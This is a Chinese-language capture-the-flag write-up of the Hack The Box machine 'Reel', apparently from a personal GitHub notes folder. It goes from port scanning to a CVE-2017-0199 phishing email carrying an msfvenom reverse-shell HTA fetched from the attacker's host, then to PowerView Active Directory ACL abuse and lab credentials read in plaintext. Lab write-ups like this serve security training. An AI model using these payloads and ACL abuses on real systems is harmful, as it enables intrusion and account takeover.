


# README

## 信息收集

### nmap

```shell
sudo nmap -p- --min-rate 10000 10.10.10.77
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 16:15 CST
Nmap scan report for 10.10.10.77
Host is up (0.13s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
25/tcp    open  smtp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
49159/tcp open  unknown
```

```shell
sudo nmap -p 21,22,25,135,139,445,593 -sC -sV  10.10.10.77
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 16:17 CST
Nmap scan report for 10.10.10.77
Host is up (0.092s latency).

PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_05-29-18  12:19AM       <DIR>          documents
| ftp-syst:
|_  SYST: Windows_NT
22/tcp  open  ssh          OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey:
|   2048 8220c3bd16cba29c88871d6c1559eded (RSA)
|   256 232bb80a8c1cf44d8d7e5e6458803345 (ECDSA)
|_  256 ac8bde251db7d838389b9c16bff63fed (ED25519)
25/tcp  open  smtp?
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:
|     220 Mail Service ready
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|   Hello:
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help:
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   SIPOptions:
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|   TerminalServerCookie:
|     220 Mail Service ready
|_    sequence of commands
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: HTB)
593/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.93%I=7%D=9/21%Time=650BFC1C%P=arm-apple-darwin21.6.0%r(N
SF:ULL,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mail\x
SF:20Service\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\r\n
SF:")%r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO\x2
SF:0EHLO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r
SF:\n")%r(GenericLines,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad\x
SF:20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20command
SF:s\r\n")%r(GetRequest,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad\
SF:x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20comman
SF:ds\r\n")%r(HTTPOptions,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Ba
SF:d\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20comm
SF:ands\r\n")%r(RTSPRequest,54,"220\x20Mail\x20Service\x20ready\r\n503\x20
SF:Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20co
SF:mmands\r\n")%r(RPCCheck,18,"220\x20Mail\x20Service\x20ready\r\n")%r(DNS
SF:VersionBindReqTCP,18,"220\x20Mail\x20Service\x20ready\r\n")%r(DNSStatus
SF:RequestTCP,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SSLSessionReq,18
SF:,"220\x20Mail\x20Service\x20ready\r\n")%r(TerminalServerCookie,36,"220\
SF:x20Mail\x20Service\x20ready\r\n503\x20Bad\x20sequence\x20of\x20commands
SF:\r\n")%r(TLSSessionReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Kerb
SF:eros,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SMBProgNeg,18,"220\x20
SF:Mail\x20Service\x20ready\r\n")%r(X11Probe,18,"220\x20Mail\x20Service\x2
SF:0ready\r\n")%r(FourOhFourRequest,54,"220\x20Mail\x20Service\x20ready\r\
SF:n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20
SF:of\x20commands\r\n")%r(LPDString,18,"220\x20Mail\x20Service\x20ready\r\
SF:n")%r(LDAPSearchReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(LDAPBin
SF:dReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SIPOptions,162,"220\x2
SF:0Mail\x20Service\x20ready\r\n503\x20Bad\x20sequence\x20of\x20commands\r
SF:\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x2
SF:0of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20B
SF:ad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20com
SF:mands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequ
SF:ence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n5
SF:03\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of
SF:\x20commands\r\n");
Service Info: Host: REEL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery:
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: REEL
|   NetBIOS computer name: REEL\x00
|   Domain name: HTB.LOCAL
|   Forest name: HTB.LOCAL
|   FQDN: REEL.HTB.LOCAL
|_  System time: 2023-09-21T09:20:19+01:00
|_clock-skew: mean: -19m59s, deviation: 34m35s, median: -1s
| smb2-time:
|   date: 2023-09-21T08:20:18
|_  start_date: 2023-09-21T08:08:39
| smb2-security-mode:
|   302:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.29 seconds

```

### 21端口

```shell
ftp Anonymous@10.10.10.77
bin
cd documents
mget *
```

里面有三个文件，说了要传ftf文件给他，他会转换，说明要邮件钓鱼了。

读一下Windows Event Forwarding.docx的元数据：

```shell
mdls 'Windows Event Forwarding.docx'
_kMDItemDisplayNameWithExtensions      = "Windows Event Forwarding.docx"
kMDItemAuthors                         = (
    "nico@megabank.com"
)
kMDItemContentCreationDate             = 2023-09-21 08:22:56 +0000
kMDItemContentCreationDate_Ranking     = 2023-09-21 00:00:00 +0000
kMDItemContentModificationDate         = 2023-09-21 08:23:30 +0000
kMDItemContentModificationDate_Ranking = 2023-09-21 00:00:00 +0000
kMDItemContentType                     = "org.openxmlformats.wordprocessingml.document"
kMDItemContentTypeTree                 = (
    "org.openxmlformats.wordprocessingml.document",
    "org.openxmlformats.openxml",
    "public.data",
    "public.item",
    "public.composite-content",
    "public.content"
)
kMDItemDateAdded                       = 2023-09-21 08:22:56 +0000
kMDItemDateAdded_Ranking               = 2023-09-21 00:00:00 +0000
kMDItemDisplayName                     = "Windows Event Forwarding.docx"
kMDItemDocumentIdentifier              = 0
kMDItemFSContentChangeDate             = 2023-09-21 08:23:30 +0000
kMDItemFSCreationDate                  = 2023-09-21 08:22:56 +0000
kMDItemFSCreatorCode                   = ""
kMDItemFSFinderFlags                   = 0
kMDItemFSHasCustomIcon                 = (null)
kMDItemFSInvisible                     = 0
kMDItemFSIsExtensionHidden             = 0
kMDItemFSIsStationery                  = (null)
kMDItemFSLabel                         = 0
kMDItemFSName                          = "Windows Event Forwarding.docx"
kMDItemFSNodeCount                     = (null)
kMDItemFSOwnerGroupID                  = 20
kMDItemFSOwnerUserID                   = 501
kMDItemFSSize                          = 14581
kMDItemFSTypeCode                      = ""
kMDItemInterestingDate_Ranking         = 2023-09-21 00:00:00 +0000
kMDItemKind                            = "Microsoft Word 文稿"
kMDItemLastUsedDate                    = 2023-09-21 08:26:14 +0000
kMDItemLastUsedDate_Ranking            = 2023-09-21 00:00:00 +0000
kMDItemLogicalSize                     = 14581
kMDItemPhysicalSize                    = 16384
kMDItemUseCount                        = 3
kMDItemUsedDates                       = (
    "2023-09-20 16:00:00 +0000"
)

```

可以得到邮箱nico@megabank.com

### 135端口

```shell
rpcclient -U "" -N 10.10.10.77
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```


### 445端口

```shell
smbmap -H 10.10.10.77 -u "guest"

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)

feng at fengs-MacBook-Pro.local in [~/github/CTF/Web/渗透/hackthebox/Reel/ftp]  on git:main ✗  987e539c "commit"
16:30:41 › smbclient -N -L //10.10.10.77/
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```

### 25端口

考虑传rtf文件，用CVE-2017-0199钓鱼：

先生成反弹shell的htb文件：

```shell
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.14 lport=39502 -f hta-psh -o msfv.hta
```

然后起服务器：

```shell
python3 -m http.server 39554
```

用工具生成恶意的rtf文件：

```shell
python cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.14:39554/msfv.hta -t rtf -x 0
```

发送：

```shell
sendemail -f feng@megabank.com -t nico@megabank.com -u "hello" -m "hello" -a invoice.rtf -s 10.10.10.77 -v
```

本地得到shell：

```shell
nc -lv 39502
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
htb\nico

```


msf同样可以做到：

```shell
use exploit/windows/fileformat/office_word_hta
set SRVHOST 10.10.14.14
set LHOST 10.10.14.14
exploit


sendemail -f feng@a.com -t nico@megabank.com -u "hello" -m "hello" -a /Users/feng/.msf4/local/msf.doc -s 10.10.10.77 -v

msf6 exploit(windows/fileformat/office_word_hta) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```


## nico用户

```shell
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users

04/11/2017  00:09    <DIR>          .
04/11/2017  00:09    <DIR>          ..
25/10/2017  21:48    <DIR>          .NET v2.0
25/10/2017  21:48    <DIR>          .NET v2.0 Classic
01/11/2017  22:58    <DIR>          .NET v4.5
01/11/2017  22:58    <DIR>          .NET v4.5 Classic
17/02/2018  00:29    <DIR>          Administrator
05/11/2017  00:05    <DIR>          brad
31/10/2017  00:00    <DIR>          claire
25/10/2017  21:48    <DIR>          Classic .NET AppPool
04/11/2017  00:09    <DIR>          herman
31/10/2017  23:27    <DIR>          julia
29/05/2018  23:37    <DIR>          nico
22/08/2013  16:39    <DIR>          Public
28/10/2017  22:32    <DIR>          SSHD
16/11/2017  23:35    <DIR>          tom
               0 File(s)              0 bytes
              16 Dir(s)   4,979,929,088 bytes free

```

发现还有很多的用户。

```shell
type user.txt
type user.txt
41d43a482e9c60db962e5334cef8ccad

C:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

这是powershell的PSCredential对象，解密很简单有很多方式但是因为password是安全字符串，直接打印不出来，查一下用GetNetworkCredential()方法即可

```shell
powershell -c "$Credential=Import-Clixml -Path .\cred.xml;Write-Host ($Credential.GetNetworkCredential() | Format-List -Force | Out-String)"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

获得Tom:1ts-mag1c!!!

## Tom用户

ssh成功登录：

```shell
ssh Tom@10.10.10.77
The authenticity of host '10.10.10.77 (10.10.10.77)' can't be established.
ED25519 key fingerprint is SHA256:fIZnS9nEVF3o86fEm/EKspTgedBr8TvFR0i3Pzk40EQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.77' (ED25519) to the list of known hosts.
Tom@10.10.10.77's password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

tom@REEL C:\Users\tom>whoami
htb\tom
```

Desktop目录下面有很多东西：

```
tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt
Findings:

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).

Maybe we should re-run Cypher query against other groups we've created.

```


起个smb服务把acls.csv下载下来：

```shell
copy acls.csv \\10.10.14.14\share
```

发现Tom对claire有WriteOwner权限



(卡的一批这个shell，不能复制粘贴只能手输，sb)

```shell
powershell
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -identity claire -OwnerIdentity tom

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword -Verbose

$cred = ConvertTo-SecureString "fengfeng123!!!" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred

#在这里设置组，在claire那边设置组不知道为什么一直没有用。
$CredNew = New-Object System.Management.Automation.PSCredential('HTB\claire', $cred)
Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $CredNew
```


## claire

再看上面的csv：



claire对backup_Admins组有WriteDacl权限。

查看administrator文件夹的权限：

```shell
claire@REEL C:\Users>icacls Administrator
Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)
              HTB\Backup_Admins:(OI)(CI)(F)
              HTB\Administrator:(OI)(CI)(F)
              BUILTIN\Administrators:(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```


```shell
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>type BackupScript.ps1
# admin password
$password="Cr4ckMeIfYouC4n!"
```


ssh登上去即可:

```shell
administrator@REEL C:\Users\Administrator>whoami
htb\administrator
```


靶机可以学到很多的东西，唯一的问题是很卡。


